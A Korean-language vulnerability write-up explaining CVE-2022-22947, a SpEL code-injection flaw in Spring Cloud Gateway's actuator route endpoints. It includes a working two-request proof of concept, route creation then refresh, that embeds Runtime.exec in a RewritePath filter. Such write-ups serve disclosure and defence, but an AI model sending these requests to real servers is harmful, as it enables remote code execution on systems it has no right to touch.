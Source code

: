 ```yaml
---
title: "[하루한줄] CVE-2022-22947: Spring Cloud Gateway Code Injection vulnerability"
author: L0ch
tags: [L0ch, cve-2022-22947, rce, code injection, cve, spring]
categories: [1day1line]
date: 2022-03-03 14:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

https://wya.pl/2022/02/26/cve-2022-22947-spel-casting-and-evil-beans/

## Target

- Spring Cloud Gateway

## Explain
Spring 프레임워크에서 API Gateway를 구현하기 위한 라이브러리 Spring Cloud Gateway 에서 Code Injection으로 인한 원격 코드 실행 취약점이 발견되었습니다.

Spring Cloud Gateway는 SpEL 표현식을 사용하며 Spring Cloud Gateway 모듈 중 `ShortcutConfigurable` 의 `getValue` 메서드는 `StandardEvaluationContext`를 사용해 모든 유효한 SpEL 표현식을 처리하는데, SpEL을 전달하는 과정에서 입력에 대한 검사가 존재하지 않아 해커는 임의 코드를 실행하는 SpEL을 전달할 수 있습니다.

> SpEL(Spring Expression Language, 스프링 표현 언어) : 스프링에서 지원하는 일종의 표현이며 `#{...}` 으로 나타냅니다.
> 

PoC는 두 단계의 HTTP Request로 구성됩니다. 

먼저 실행할 임의 코드가 포함된 `RewritePath`의 인수를 `StandardEvaluationContext`로 처리할 수 있도록 SpEL 표현으로 캡슐화합니다.

```c
POST /actuator/gateway/routes/new_route HTTP/1.1
Host: 127.0.0.1:9000
Connection: close
Content-Type: application/json

{
  "predicates": [
    {
      "name": "Path",
      "args": {
        "_genkey_0": "/new_route/**"
      }
    }
  ],
  "filters": [
    {
      "name": "RewritePath",
      "args": {
        "_genkey_0": "#{T(java.lang.Runtime).getRuntime().exec(\"touch /tmp/x\")}",
        "_genkey_1": "/${path}"
      }
    }
  ],
  "uri": "https://wya.pl",
  "order": 0
}
```

`#{T(java.lang.Runtime).getRuntime().exec(\"touch /tmp/x\")}` 와 같이 캡슐화한 HTTP Request를 보냅니다. 



이후 해당 구성을 강제로 로드하는 아래 Request를 보냅니다.

```c
POST /actuator/gateway/refresh HTTP/1.1
Host: 127.0.0.1:9000
Content-Type: application/json
Connection: close
Content-Length: 258

{
  "predicate": "Paths: [/new_route], match trailing slash: true",
  "route_id": "new_route",
  "filters": [
    "[[RewritePath #{T(java.lang.Runtime).getRuntime().exec(\"touch /tmp/x\")} = /${path}], order = 1]"
  ],
  "uri": "https://wya.pl",
  "order": 0
}
```

결과적으로 SpEL 표현식을 실행해 해커가 원격에서 임의의 코드를 실행할 수 있습니다.